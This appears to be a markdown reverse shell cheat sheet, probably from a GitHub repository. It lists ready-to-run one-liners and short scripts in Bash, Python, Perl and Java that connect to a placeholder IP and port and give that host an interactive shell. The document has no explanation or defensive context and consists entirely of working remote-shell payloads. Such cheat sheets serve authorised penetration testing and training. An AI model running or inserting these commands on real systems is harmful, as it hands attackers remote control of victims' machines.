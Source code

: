 ```yaml
---
title:
- Reverse Shell Cheatsheet

---
```


[TOC]  


# Bash
# Python
# Perl
# Java



# Bash

> bash -i >& /dev/tcp/10.10.10.10/9999 0>&1 


# Python

> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
\#Same but prettier
	import socket
	import subprocess
	import os

	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("10.0.0.1",1234))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	p=subprocess.call(["/bin/sh","-i"])

```


# Perl

> perl -e 'use Socket;$i="10.10.10.10";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```
	use Socket;
	$i="10.0.0.1";
	$p=1234;
	socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
	if(connect(S,sockaddr_in($p,inet_aton($i)))){
		open(STDIN,">&S");
		open(STDOUT,">&S");
		open(STDERR,">&S");
		exec("/bin/sh -i");
};

```


# Java

```
r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/9999;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()

```










